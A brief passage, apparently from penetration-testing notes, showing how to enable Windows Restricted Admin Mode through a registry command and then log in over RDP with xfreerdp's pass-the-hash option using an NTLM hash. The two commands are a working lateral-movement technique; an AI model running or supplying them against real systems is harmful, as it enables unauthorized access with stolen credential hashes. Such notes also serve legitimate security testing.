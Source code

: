 Restricted Admin Mode must be enabled. We can do this by adding a regkey:
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Then use the -pth option in xfreerdp:
```shell
xfreerdp  /v:10.1.2.3 /u:username /pth:64F12CDDAA88057E06A81B54E73B949B
```

